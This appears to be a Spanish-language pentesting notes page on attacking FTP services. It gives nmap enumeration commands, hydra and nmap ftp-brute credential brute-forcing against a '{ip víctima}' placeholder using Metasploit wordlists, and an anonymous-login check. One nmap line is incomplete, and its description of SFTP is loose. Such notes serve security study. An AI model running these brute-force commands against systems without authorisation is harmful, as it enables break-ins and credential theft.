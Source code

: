 ```yaml
---
title: 'Protocolo FTP'
description: 'Notas sobre cómo explotarlo'
pubDate: 2023-12-18
author: 'Nicolas Riquelme'
tags: ["Hacking", "Windows", "FTP", "sharing", "discover", "mount"]
tableOfContents:
  minHeadingLevel: 2
  maxHeadingLevel: 3
---
```

# FTP
FTP son las siglas para el protocolo de transferencia de archivos (File Transfer Protocol). Es un protocolo de red que permite la transferencia de archivos entre dos sistemas conectados a una red TCP por el puerto 21. El protocolo FTP tiene una versión más segura (SFTP) que encripta el tráfico.

## Enumeración
### Enumeración básica
```bash 
ping {ip víctima}		 							# para ver si esta activa la red
nmap {ip víctima} 									# para ver los puertos abiertos
nmap -p21 --script  {ip víctima} 		# para ver la información del protocolo FTP
```
### Enumeración de usuarios y contraseñas
En la carpeta de Kali /usr/share/metasploit-framework/data/wordlists encontraremos los diccionarios "common_users.txt" y "unix_passwords.txt"

```bash
hydra -L {path diccionario de usuarios} -P {path a diccionario de passwords} {ip víctima} ftp -o hydra.txt 	# creará un archivo hydra.txt con los resultados obtenidos

nmap -p21 {ip víctima} --script ftp-brute --script-args userdb={archivo con los usuarios}
```
## Comando FTP
```bash
ftp {ip víctima} 					# nos pedirá el usuario y la contraseña. Los comandos que se pueden usar son una mezcla entre POSIX y DOS. Estos son algunos de los que se pueden usar una vez logueados:
	ls								# listar el contenido del directorio
	bye								# cerrar la conexión
	get {archivo}					# descargará el archivo seleccionado
	put {path a archivo remoto}		# subirá el archivo local al servidor
```
### Login anónimo
```bash
nmap {ip víctima} -p21 --script ftp-anon		# nos indicará si está configuirado para permitir conexiones anónimas y el contenido de las unidades que lo permitan

ftp {ip víctima}
	anonymous
	
```
